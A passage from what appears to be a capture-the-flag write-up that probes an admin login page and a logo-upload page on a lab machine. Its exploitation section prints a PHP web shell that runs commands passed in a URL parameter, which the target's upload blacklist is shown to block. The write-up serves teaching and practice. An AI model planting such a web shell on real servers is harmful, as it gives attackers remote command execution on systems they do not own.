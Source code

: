 Trying common credentials on admin.php did not work but we noted that credentials were handled as URL parameters, which is weird. Other bypasses like HTTP tampering or SQLi neither worked.

<img src="/assets/img/vault/Untitled 3.png" alt="Untitled 3.png" style="width:800px;">

The changelogo.php appears to be a file upload functionality.

<img src="/assets/img/vault/Untitled 4.png" alt="Untitled 4.png" style="width:800px;">

# Exploitation

This will be our payload for now.

```php
<?php
	$cmd = system($_GET['cmd']);
	echo "<pre>" . $cmd . "</pre>";
?>
```

It didn’t work. There is a blacklist mechanism in place.

<img src="/assets/img/vault/Untitled 5.png" alt="Untitled 5.png" style="width:800px;">
